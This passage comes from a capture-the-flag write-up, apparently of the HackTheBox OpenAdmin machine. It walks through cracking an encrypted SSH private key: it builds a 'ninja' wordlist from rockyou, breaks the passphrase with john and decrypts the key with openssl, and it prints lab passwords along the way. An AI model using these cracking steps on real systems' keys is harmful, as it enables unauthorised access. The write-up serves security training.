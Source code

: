 On successful login, it redirects to `main.php`, where there’s an ssh key:

![image-20200118152816918](https://0xdfimages.gitlab.io/img/image-20200118152816918.png)

#### Decrypt Key

To decrypt the key, the first thing I tried was jimmy’s password, `n1nj4W4rri0R!`, but that fails:

```

root@kali# openssl rsa -in joanna-enc -out id_rsa_openadmin_joanna
Enter pass phrase for joanna-enc:
unable to load Private Key
139806906295488:error:06065064:digital envelope routines:EVP_DecryptFinal_ex:bad decrypt:../crypto/evp/evp_enc.c:570:
139806906295488:error:0906A065:PEM routines:PEM_do_header:bad decrypt:../crypto/pem/pem_lib.c:461:

```

Then I figured I’d try “ninja” words from rockyou. First create the wordlist:

```

root@kali# grep -i ninja /usr/share/wordlists/rockyou.txt > rockyou_ninja

```

Then it breaks in `john` instantly:

```

root@kali# /opt/john/run/john --wordlist=rockyou_ninja joanna-enc.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 3 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (joanna-enc)
1g 0:00:00:00 DONE (2020-01-18 15:37) 50.00g/s 88250p/s 88250c/s 88250C/s 007ninjajairo..#1FLUFFYCOCKYNINJA
Session completed

```

And I can write a unencrpyted copy of the key:

```

root@kali# openssl rsa -in joanna-enc -out id_rsa_openadmin_joanna
Enter pass phrase for joanna-enc:
writing RSA key

```
